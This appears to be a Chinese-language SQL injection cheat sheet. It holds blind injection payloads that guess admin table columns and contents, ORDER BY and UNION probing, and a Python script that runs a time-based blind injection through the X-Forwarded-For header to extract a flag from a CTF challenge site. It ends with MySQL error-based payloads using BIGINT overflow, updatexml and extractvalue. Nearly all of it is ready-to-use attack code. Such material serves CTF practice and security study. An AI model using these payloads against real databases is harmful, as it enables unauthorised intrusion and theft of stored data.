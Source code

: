 ```sql

admin and exists(select admin from admin) 
--说明存在admin列

and (select length(username) from admin limit 1)>0 
--猜解数据库列名长度：修改后面的>0是猜解长度 

and (select top 1 ascii(substring(username 1,1)) from admin)>0 
--猜解内容：猜解出的内容需对应ASCII表,ascii、substring为MySQL的函数，MsSQL略有不同
ORDER BY num
--爆字段长度
and 1=1 union select 1,2,3,4...n
--匹配字段:
group_concat()
--函数让检索出来的语句以行的形式显示。如果不用这个函数，就不会看到输出结果。 

```

```py
import requests
import string

s=requests.session()
url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''
guess=string.lowercase+string.uppercase+string.digits
for i in range(33):
    for st in guess:
        headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}
        try:
          res=s.get(url,headers=headers,timeout=4)
        except requests.exceptions.ReadTimeout:
            flag+=st
    print "flag:",flag
    break
print "result:"+flag
```

### 报错注入

```sql
// mysql<5.5.47
select (select(!x-~0)from(select(select user())x)a);
--- ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
```
从mysql5.1.5开始提供两个[XML查询和修改的函数](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html)，extractvalue和updatexml。extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容,它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：

```sql
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
--- ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
--- ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
```
